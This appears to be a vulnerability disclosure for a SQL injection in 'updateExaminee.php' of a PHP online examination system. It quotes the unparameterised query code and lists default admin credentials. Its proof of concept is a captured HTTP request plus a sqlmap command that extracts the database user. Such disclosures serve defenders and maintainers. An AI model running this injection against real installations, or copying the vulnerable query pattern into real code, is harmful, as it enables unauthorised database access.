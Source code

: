 ## Online Examination System With Timer

## SQL Injection on `updateExaminee.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/adminpanel/admin/facebox_modal/updateExaminee.php
```

The potential injection point is located in `updateExaminee.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# updateExaminee.php
<?php 
	include("../../../conn.php");
	$id = $_GET['id'];
	$selExmne = $conn->query("SELECT * FROM examinee_tbl WHERE exmne_id='$id' ")->fetch(PDO::FETCH_ASSOC);
?>
```

### Proof of Concept:

**Burp Request:**

```
GET /adminpanel/admin/facebox_modal/updateExaminee.php?id=8 HTTP/1.1
Host: 192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/adminpanel/admin/home.php?page=manage-examinee
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close


```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**

![image-20240513175232690](./screenshot/image-20240513175232690.png)
